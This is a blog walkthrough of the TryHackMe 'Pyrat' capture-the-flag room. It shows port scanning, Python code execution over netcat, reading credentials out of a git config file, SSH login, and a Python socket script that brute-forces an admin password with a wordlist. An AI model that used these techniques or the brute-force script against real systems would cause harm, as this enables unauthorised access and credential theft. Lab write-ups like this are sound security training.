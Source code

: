 ```yaml
---
layout: post
title: "🎮 Walk-through  → THM Pytrat"
permalink: /blog/walk-through_thm_pyrat/
---
```


# 🎮 Walk-through → TryHackMe Pyrat

[Pyrat Challange Room Link →](https://tryhackme.com/room/pyrat)

### Description

Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. The script unveils a password, ultimately granting access to the root.

# Nmap port scan

Screenshot:

![image](/assets/images/thm/pyrat/1.png)

Port ssh (22) and Hppt (8000) is open.
Screenshot:

# Check for the http port information.

![image](/assets/images/thm/pyrat/2.png)

Basic connection ok. lets connect to port 8000 using netcat. Try to run hello world python syntax as description says there are potential python code execution vulnerability.
Screenshot:
![image](/assets/images/thm/pyrat/3.png)

We can execute python codes here.

Next I will use python code execution payload further. Try to check for incomming mails.
Screenshot:
![image](/assets/images/thm/pyrat/4.png)

May be there is something for me in `think`. Next try to read this mail.

Screenshot:
![image](/assets/images/thm/pyrat/5.png)

search for git folders.

```python
import os; print([r for r, d, ds in os.walk('/') if ".git" in d])
```

Screenshot:
![image](/assets/images/thm/pyrat/6.png)

Check git config.

![image](/assets/images/thm/pyrat/7.png)

We got username and password here. Let's try to ssh using this credential.

We have successfully loged in and in the home directory there is an `users.txt` file contains our first flag.

### Root

![image](/assets/images/thm/pyrat/8.png)

Python script to find admin password.

```python=
import socket


TARGET_IP = '10.10.118.253'
TARGET_PORT = 8000
WORDLIST = '/usr/share/wordlists/rockyou.txt'


with open(WORDLIST, 'r', encoding="latin-1") as f:
    for password in f:
        password = password.strip()
        try:
            s = socket.socket()
            s.settimeout(3)
            s.connect((TARGET_IP, TARGET_PORT))

            # Send admin
            s.sendall(b"admin\n")
            data = s.recv(4096).decode()

            # read password prompt
            if "Password:" in data:
                s.sendall((password + "\n").encode())
                data = s.recv(4096).decode()
                print(f"[TRY] Password: {password} | Response: {data.strip()}")

                if "Password:" not in data:
                    print(f"\n[SUCCESS] Password found: {password}")
                    break
            else:
                print("Error: unexpected response after sending username")

            s.close()
        except Exception as e:
            print("Error: %s " %e)

```

Now successfully got the admin password.
![image](/assets/images/thm/pyrat/9.png)

## Useful commands.

1. `nmap -sS 10.10.133.11`
2. `import os; print([r for r, d, ds in os.walk('/') if ".git" in d])`
3. `print(open("/opt/dev/.git/config").read())`
4. `ssh think@10.10.118.253`
5. `nc 10.10.118.253 8000`
